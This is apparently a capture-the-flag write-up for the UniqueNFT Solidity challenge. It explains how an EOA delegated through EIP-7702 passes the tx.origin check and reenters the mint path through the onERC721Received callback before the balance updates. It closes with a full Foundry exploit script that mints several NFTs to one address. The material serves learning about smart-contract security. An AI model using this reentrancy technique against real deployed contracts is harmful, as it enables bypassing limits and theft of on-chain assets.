

## Challenge
### Description
Welcome to UniqueNFT, where any user can get its very own shiny digital badge.
Humans with EOAs? You mint for free, no questions asked. Proof of Humanity for the win!
Smart contracts? Sorry bots, pay the toll –\> one whole ether!
But here’s the twist: one badge per address, no greedy hoarding allowed.
And forget about trading, these things stick like glue.
It’s like blockchain tattoos, once it’s yours, it’s yours forever.
Think you can outsmart the rules and own more a single NFT? Prove it.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import { ERC721 } from "openzeppelin-contracts-v5.4.0/token/ERC721/ERC721.sol";
import { ERC721Utils } from "openzeppelin-contracts-v5.4.0/token/ERC721/utils/ERC721Utils.sol";
import { ReentrancyGuard } from "openzeppelin-contracts-v5.4.0/utils/ReentrancyGuard.sol";

contract UniqueNFT is ERC721, ReentrancyGuard {

    uint256 public tokenId;

    constructor() ERC721("UniqueNFT", "UNFT") {}

    /// @notice Function to mint NFTs for smart contracts only
    /// @notice Smart contracts need to pay a fee to mint the NFT
    /// @dev Has reentrancy protection just in case the smart contract would try to do some bad stuff
    function mintNFTSmartContract() external payable nonReentrant returns(uint256 mintedNFT) {
        require(msg.value == 1 ether, "fee not sent");
        mintedNFT = _mintNFT();
    }

    /// @notice Function to mint NFTs for EOAs only
    /// @notice EOAs are exempt from minting the NFT
    function mintNFTEOA() external returns(uint256 mintedNFT) {
        require(tx.origin == msg.sender, "not an EOA");
        mintedNFT = _mintNFT();
    }

    function _mintNFT() private returns(uint256) {
        require(balanceOf(msg.sender) == 0, "only one unique NFT allowed");
        uint256 _tokenId = tokenId++;
        ERC721Utils.checkOnERC721Received(address(0), address(0), msg.sender, _tokenId, "");
        _mint(msg.sender, _tokenId);
        return _tokenId;
    }

    function _update(address to, uint256 _tokenId, address auth) internal override returns (address) {
        address from = super._update(to, _tokenId, auth);
        require(from == address(0), "transfers not allowed");
        return from;
    }
}
```
## Background

---

In ERC721, when an NFT is sent to a contract address, you must verify that the recipient is a contract capable of receiving NFTs. To do this, `onERC721Received` is called on the recipient, and the transfer is allowed if the recipient returns the expected selector.
Normally the state is changed first and then the callback is invoked. That way, even if execution re-enters during the callback, the checks run against already-updated state like `balanceOf` and `ownerOf`. Conversely, if the external call happens before the state change, the callback can exploit the still-unchanged state.

---

A regular EOA has no code, so it cannot receive an `onERC721Received` callback. A regular contract has code, but it cannot satisfy `tx.origin == msg.sender`.
With EIP-7702, an EOA can delegate execution to a specific implementation contract. The account address is still the EOA address, but when a call comes to that address, the delegated code runs. From the target's perspective, `msg.sender` is the player EOA and `tx.origin` is also the player EOA, yet at the same time the `msg.sender` address has callback code attached to it.
This challenge tried to handle EOAs and contracts separately, but a delegated EOA collapses that boundary.
## Code analysis

---

There are two minting paths.
```solidity
function mintNFTSmartContract() external payable nonReentrant returns(uint256 mintedNFT) {
    require(msg.value == 1 ether, "fee not sent");
    mintedNFT = _mintNFT();
}

function mintNFTEOA() external returns(uint256 mintedNFT) {
    require(tx.origin == msg.sender, "not an EOA");
    mintedNFT = _mintNFT();
}
```
`mintNFTSmartContract` requires 1 ether and has `nonReentrant` attached. If you attempt callback reentrancy through the contract path, this function blocks it.
`mintNFTEOA`, on the other hand, only checks `tx.origin == msg.sender`. A typical contract call cannot satisfy this condition, but by attaching code to the player EOA via EIP-7702, it still looks to the target as if the player EOA called it directly.

---

The one-NFT limit is enforced here.
```solidity
function _mintNFT() private returns(uint256) {
    require(balanceOf(msg.sender) == 0, "only one unique NFT allowed");
    uint256 _tokenId = tokenId++;
    ERC721Utils.checkOnERC721Received(address(0), address(0), msg.sender, _tokenId, "");
    _mint(msg.sender, _tokenId);
    return _tokenId;
}
```
The one-NFT limit is `balanceOf(msg.sender) == 0`. The problem is that after passing this check it does not immediately `_mint`; instead it first makes an external call via `ERC721Utils.checkOnERC721Received`.
When this call reaches the player EOA's delegated code, `onERC721Received` runs. At this moment `_mint` has not yet executed, so the player's balance is still 0. So if the callback calls `mintNFTEOA` again, it passes the same check again.
The first `mintNFTEOA` checks balance 0 and invokes the callback. Even if the callback calls `mintNFTEOA` a second time, the first NFT has not been minted yet, so the balance is 0. The second call finishes `_mint` first, and then the first call continues and finishes its `_mint`, so the same address ends up holding 2 NFTs.

---

Transfers are blocked separately.
```solidity
function _update(address to, uint256 _tokenId, address auth) internal override returns (address) {
    address from = super._update(to, _tokenId, auth);
    require(from == address(0), "transfers not allowed");
    return from;
}
```
`_update` only allows `from == address(0)`. In other words, minting is possible but transfers are blocked.
You cannot mint from another address and then move it to the player. The exploit must mint multiple times to the final owner, the player address itself.
## Solution
Attach code to the player EOA that runs `onERC721Received`. Deploy `UniqueNFTDelegation`, then use `vm.signAndAttachDelegation` to make the player EOA delegate to that implementation.
Then call `attack` on the player address. This call runs in the delegated code, but when it calls the target's `mintNFTEOA`, the `msg.sender` the target sees is the player address. So it passes `tx.origin == msg.sender`.
When the first mint reaches `checkOnERC721Received`, the target calls `onERC721Received` on the player address. Taking advantage of the fact that the delegated code's callback runs before the balance has increased, it calls `mintNFTEOA` once more. The callback reentrancy goes through the EOA minting path, so it is also unrelated to the paid contract minting path that has `nonReentrant` attached.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IUniqueNFT {
    function balanceOf(address owner) external view returns (uint256);
    function mintNFTEOA() external returns (uint256);
}

interface IERC721ReceiverLike {
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        external
        returns (bytes4);
}

interface IUniqueNFTDelegation {
    function attack(address uniqueNFT, uint256 desiredBalance) external;
}

contract UniqueNFTDelegation is IERC721ReceiverLike {
    IUniqueNFT private target;
    uint256 private targetMints;
    uint256 private callbackCount;

    function attack(address uniqueNFT, uint256 desiredBalance) external {
        target = IUniqueNFT(uniqueNFT);

        uint256 currentBalance = target.balanceOf(address(this));
        require(desiredBalance > currentBalance, "already enough NFTs");

        targetMints = desiredBalance - currentBalance;
        callbackCount = 0;

        target.mintNFTEOA();
        require(target.balanceOf(address(this)) >= desiredBalance, "mint failed");

        delete target;
        delete targetMints;
        delete callbackCount;
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        require(msg.sender == address(target), "only target");

        callbackCount++;
        if (callbackCount < targetMints) {
            target.mintNFTEOA();
        }

        return IERC721ReceiverLike.onERC721Received.selector;
    }
}

contract Sol38 is Script {
    uint256 private constant DESIRED_BALANCE = 2;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        IUniqueNFT uniqueNFT = IUniqueNFT(vm.envAddress("UNIQUE_NFT_INSTANCE"));

        vm.startBroadcast(privateKey);

        UniqueNFTDelegation delegation = new UniqueNFTDelegation();
        vm.signAndAttachDelegation(address(delegation), privateKey);

        IUniqueNFTDelegation(player).attack(address(uniqueNFT), DESIRED_BALANCE);

        vm.signAndAttachDelegation(address(0), privateKey);
        (bool cleared,) = player.call("");
        require(cleared, "clear delegation failed");

        require(uniqueNFT.balanceOf(player) >= DESIRED_BALANCE, "player needs two NFTs");

        vm.stopBroadcast();
    }
}
```

